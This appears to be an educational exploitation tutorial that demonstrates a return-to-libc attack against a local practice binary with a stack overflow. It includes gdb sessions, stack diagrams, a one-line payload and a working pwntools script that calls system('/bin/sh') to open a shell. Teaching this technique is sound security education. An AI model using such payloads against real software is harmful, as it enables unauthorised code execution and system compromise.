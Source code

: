 # Return-to-libc attack(ret2libc)

This attack includes searching addresses of useful functions within libc.

Again, consider our stack-overflow program and determine the offset to return address within gdb:
```bash
gef➤  r < <(python -c 'print "A"*262 + "B"*4')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "A"*262 + "B"*4')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

Now, find addresses within libc. An easy and always useful function to use in the exploit is a `system`, then, you need string `/bin/sh` as an argument to it and last function `exit`.
```bash
gef➤  b *main
Breakpoint 1 at 0x8049243
gef➤  r
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx

Breakpoint 1, 0x08049243 in main ()
gef➤  print system
$2 = {<text variable, no debug info>} 0xf7e02830 <system>
gef➤  print exit
$3 = {<text variable, no debug info>} 0xf7df5170 <exit>
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'(0x804a000-0x804b000), permission=r--
  0x804a008 - 0x804a00f  →   "/bin/sh"
[+] In '/home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx'(0x804b000-0x804c000), permission=r--
  0x804b008 - 0x804b00f  →   "/bin/sh"
[+] In '/lib/i386-linux-gnu/libc-2.31.so'(0xf7f35000-0xf7fa5000), permission=r--
  0xf7f4f352 - 0xf7f4f359  →   "/bin/sh"

```

Thus, you have the address `system`, `exit`, and `/bin/sh` for the syste, as an argument. You just need to figure out how the stack works when you call a few functions in a row.

Usual stack view:
```bash
|        unused space       |
----------------------------- <--- some_func2()
|       func variables      |
-----------------------------
|         saved ebp         |
-----------------------------
|     saved ret address     |
-----------------------------
|       func arguments      |
----------------------------- <--- some_func() that calls some_func2()
|  previous func variables  |
-----------------------------
|      prev. saved ebp      |
-----------------------------
|  prev. saved ret address  |
-----------------------------
|    prev. func arguments   |
-----------------------------
```
The stack when you do a ret2libc attack:
```bash
|        unused space       |
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
|AAAAAAAAAAAAAAAAAAAAAAAAAAA|
-----------------------------
| ret address to the system | <--- this is a place where the ret address stored for the current function(some function, whatever)
-----------------------------
|  ret address to the exit  |
-----------------------------
|    address of /bin/sh     |
-----------------------------
| null as end of input str. |
-----------------------------
```

After the first jump to the system function:
```bash
|        empty space        |
-----------------------------
|  ret address to the exit  | <--- this is a place where the ret address stored for the current function(system)
-----------------------------
|    address of /bin/sh     | <--- is considered as the first argument to the system
-----------------------------
| null as end of input str. |
-----------------------------
```

After the second jump to the exit function:
```bash
-----------------------------
| null as end of input str. | <--- as an argument to exit or exit with 0 code.
-----------------------------
|       something else      |
```

So the final exploit will be just with all three correct address:
```bash
gef➤  r < <(python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"')
Starting program: /home/shogun/repos/basics-of-pwn/content/security-techniques/stack-overflow-with-nx < <(python -c 'print "A"*262 + "\x30\x28\xe0\xf7" + "\x70\x51\xdf\xf7" + "\x52\xf3\xf4\xf7"')
[Detaching after vfork from child process 5366]
[Inferior 1 (process 5363) exited normally]
gef➤
```

Attack with pwntools:
```python
from pwn import *


# start the vuln program
p = process('./stack-overflow-with-nx')
system_addr = p32(0xf7e02830)
exit_addr = p32(0xf7df5170)
bin_sh_addr = p32(0xf7f4f352)
payload = b'A' * 262
payload += system_addr
payload += exit_addr
payload += bin_sh_addr
p.sendline(payload)
p.interactive()
```
For security such as ASLR, this will not work, because it will also randomize the addresses of key functions and arguments for this attack.
